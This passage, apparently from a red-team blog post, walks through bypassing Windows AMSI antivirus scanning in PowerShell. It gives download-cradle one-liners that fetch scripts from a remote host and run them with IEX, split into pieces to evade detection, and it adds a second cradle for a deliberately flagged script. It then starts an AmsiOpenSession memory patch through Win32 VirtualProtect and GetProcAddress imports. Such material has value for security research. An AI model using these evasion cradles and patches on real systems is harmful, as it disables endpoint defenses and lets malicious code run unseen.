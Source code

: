 ## An actual case where we need separate AMSI sessions

### Intro

In the last section, we responded to a "what-if", hypothetical scenario: a case where an
Antivirus would actually correlates multiple buffers within one AMSI session.

Let's now look at a scenario where the runspace technique is actually
needed.

We go back to our original AmsiScanBuffer bypass, which ran Rasta Mouse's
script, split in 3 parts (we don't worry about AMSI sessions for now).

```
$full =(New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt"); IEX($full.substring(0,591));IEX($full.substring(591,60));IEX($full.substring(651,126))
```

Suppose we want to run a second, malicious, script, that on its own gets
caught by AMSI. We will want to run it after our bypass, on the same prompt. For
our purposes, malicious.txt will only contain the very malicious
blacklisted string 'amsiutils' (with the single quotes). We add a download
cradle for malicious.txt.

```
$full =(New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt");IEX($full.substring(0,591));IEX($full.substring(591,60)); IEX($full.substring(651,126)); (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/malicious.txt")|IEX
```

It works:

![image14.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image14.png)


### AmsiOpenSession patch

Now, let's create a whole new AMSI bypass script. Instead of patching
AmsiScanBuffer, we want to scan AmsiOpenSession. Since we're a script
kiddie, we'll just take the [AmsiScanBuffer script](
https://github.com/webbie321/AmsiScanBufferBypass/blob/master/ASBBypass.ps1)
by Rasta Mouse, replace the function name, and hope for the best.


On line 22, we simply replace "Amsi" + "Scan" + "Buffer" by
"AmsiOpenSession".

No need to split the function name string anymore (for now) since this is a less popular
function to patch.

Full new script:

```
$Win32 =@"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32
```